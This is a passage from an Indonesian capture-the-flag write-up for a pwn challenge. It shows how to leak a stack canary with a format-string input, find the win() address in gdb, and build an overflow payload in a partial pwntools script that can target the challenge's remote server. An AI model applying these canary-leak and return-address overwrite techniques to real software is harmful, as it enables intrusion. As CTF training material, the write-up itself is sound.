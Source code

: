 ```
b'canary2win e youkoso~ input wo joudai >//<\n> '
Payload Canary:  b'\x00\xa5\xc5~\xd6j\xe3?'
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n'
[*] Stopped process './chall' (pid 50899)
```
Terlihat bahwa kita tidak mendapat error stack smash yang menandakan kita sukses bypass stack canary.

**4. Mendapatkan Address fungsi ```win()```**

Karena kita tahu **PIE** tidak aktif, maka address fungsi-fungsi yang ada akan tetap konstan entah di local atau remote. Untuk mencari _address_-nya kita bisa menggunakan ```gdb```. Berikut caranya:
- Buka ```gdb```.
```
gdb ./chall
```
- Masukkan command berikut:
```
print win
```
Diperoleh:
```
(gdb) print win
$1 = {<text variable, no debug info>} 0x401290 <win>
(gdb)
```
Diperoleh bahwa address fungsi ```win()``` adalah **0x401290**

**5. Craft Payload**

Sekarang setelah kita dapatkan address fungsi ```win()```, kita tinggal dapatkan payload pamungkas:
```
payload = padding (40 bytes) + canary + padding(?? bytes) + addr_win
```
Namun kita tidak tahu berapa padding antara ```canary``` dengan ```addr_win```. Kita bisa mencoba-coba sampai mendapatkan padding yang pas. Fakta yang jelas adalah karena ini 64-bit, padding-nya kemungkinan besar kelipatan 8.

Mari kita coba dari padding=0
```
import pwn

#address fungsi win
WIN_ADDRESS = 0x401290

#buat local connection
with pwn.process("./chall") as c:

#buat remote connection
# with pwn.remote("34.101.174.85",10002) as c:
   #dapetin stack canary-nya
   #tunggu prompt
   print(c.recvuntil("> "))
   #kirim payload
   c.sendline("%11$lx") #cek pake gdb
   #lihat responsenya
   canary_stack = c.recvline().strip().decode()
   print(canary_stack)

   #parse canary
   canary = bytes.fromhex(canary_stack)

   #tunggu prompt lagi
   print(c.recvuntil("> "))
   #kirim payload
   #payload canary
   payload_canary = pwn.p64(int.from_bytes(canary,"big"))
```
